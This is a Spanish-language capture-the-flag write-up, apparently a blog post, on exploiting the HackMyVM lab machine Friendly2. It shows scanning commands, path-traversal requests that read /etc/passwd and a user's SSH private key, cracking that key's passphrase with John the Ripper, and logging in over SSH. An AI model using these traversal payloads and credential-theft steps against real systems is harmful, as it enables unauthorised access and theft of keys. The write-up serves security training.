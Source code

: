 
---
- TAG: #Explotación #Vulnerabilidades #Inclusión #Archivos #Locales #LFI
----
Claro, aquí tienes el contenido con los títulos y subtítulos adecuados:

---

# Explotación de una Vulnerabilidad Local File Inclusion (LFI)

En el blog de hoy, vamos a aprender a realizar un **Local File Inclusion (LFI)** en una página web vulnerable. Hay muchas formas de realizar un **LFI**, pero esta vez lo aprenderemos de una manera sencilla y básica, adecuada para el nivel del examen.

Para ello, utilizaremos una máquina víctima de **HackMyVM**.

- Máquina: [Friendly2](https://hackmyvm.eu/machines/machine.php?vm=Friendly2)
- Máquina atacante: Linux

## Procedimiento

### 1. Preparación del Entorno

Una vez descargada la máquina vulnerable y exportada a nuestro VirtualBox, estamos listos para proceder.

1. **Arp-scan** para localizar la máquina víctima.
2. **Ping** para ver el tipo de TTL y entender a qué nos enfrentamos.
3. **Nmap** para encontrar vulnerabilidades y puertos abiertos:
   ```bash
   nmap -p- -sS -sC -sV --open --min-rate=5000 -n -Pn -vvv 1.2.3.4 -oN escaneo
   ```

Al finalizar el escaneo, encontramos dos puertos abiertos: `22` (SSH) y `80` (HTTP). Al acceder a la página web a través del navegador en el puerto 80, vemos una página web sencilla.

### 2. Exploración de la Página Web

1. **Revisar el código fuente** presionando `Ctrl + U`.
   No vemos nada interesante, así que continuamos.

2. **Fuzzing Web**:
   ```bash
   dirb http://1.2.3.4
   ```

Con este ataque rápido, encontramos dos directorios: `/assets` y `/tools`.

3. Al probar el primer directorio, encontramos un mensaje de **Información privada**. Revisamos el código fuente (`Ctrl + U`) y encontramos información sensible en un comentario:
   ```bash
   check_if_exist.php?doc=keyboard.html
   ```

Agregamos esta información al final de la URL:
   ```bash
   http://1.2.3.4/tools/check_if_exist.php?doc=keyboard.html
   ```

Vemos una página sencilla con la imagen de un teclado. Ahora, realizaremos el ataque **Local File Inclusion (LFI)**.

### 3. Realización del Ataque Local File Inclusion (LFI)

Cuando vemos algo similar a `doc=keyboard.html` en una URL, siempre que esté llamando a un parámetro o archivo, es probable que sea vulnerable a **LFI**. Esta vulnerabilidad nos permite retroceder por los directorios hasta acceder a archivos importantes de la máquina víctima.

1. En la URL, reemplazamos `keyboard.html` con `../` para retroceder en los directorios:
   ```bash
   http://1.2.3.4/tools/check_if_exist.php?doc=../../etc/passwd
   ```

Al apuntar a `../etc/passwd`, veremos todos los usuarios registrados en la máquina víctima Linux.

2. Buscamos el fichero **id_rsa** de un usuario existente dentro de la máquina:
   ```bash
   http://1.2.3.4/tools/check_if_exist.php?doc=../../home/gh0st/.ssh/id_rsa
   ```

Al acceder a esta ruta, vemos la **PRIVATE KEY**. Copiamos este archivo a nuestra máquina atacante para obtener acceso a la máquina víctima.

### 4. Uso del Archivo id_rsa para Acceder a la Máquina Víctima

1. Hacemos `Ctrl + U` en la página web con la clave.
2. Copiamos toda la clave.
3. En nuestra máquina Kali Linux, creamos un archivo con `nano` o `nvim`:
   ```bash
   nano id_rsa
   ```

4. Pegamos toda la clave, guardamos y salimos.
5. Le asignamos el permiso `600`:
   ```bash
   chmod 600 id_rsa
   ```

6. Ingresamos utilizando el archivo `id_rsa` con el usuario `gh0st`:
   ```bash
   ssh -i id_rsa gh0st@1.2.3.4
   ```

7. Nos pedirá el salvoconducto. Utilizamos **John The Ripper** para crackear el **id_rsa**:
   ```bash
   ssh2john id_rsa > hash
   john --wordlist=/usr/share/wordlist/rockyou.txt hash
   ```

8. Volvemos a ingresar con `ssh` y, esta vez, cuando nos pida el salvoconducto, ingresamos la credencial `celctic`:
   ```bash
   ssh -i id_rsa gh0st@1.2.3.4
   ```

Pegamos el salvoconducto encontrado y ya estaremos dentro.

### Resumen

1. Hemos explotado un **Local File Inclusion** para encontrar información valiosa de la víctima, específicamente el archivo `id_rsa`.
2. Hemos obtenido dicho archivo `id_rsa` y le hemos proporcionado el permiso `600`.
3. Lo hemos crackeado localmente con **John The Ripper** para obtener el salvoconducto.
4. Ingresamos como el usuario `gh0st` en la máquina víctima.

---
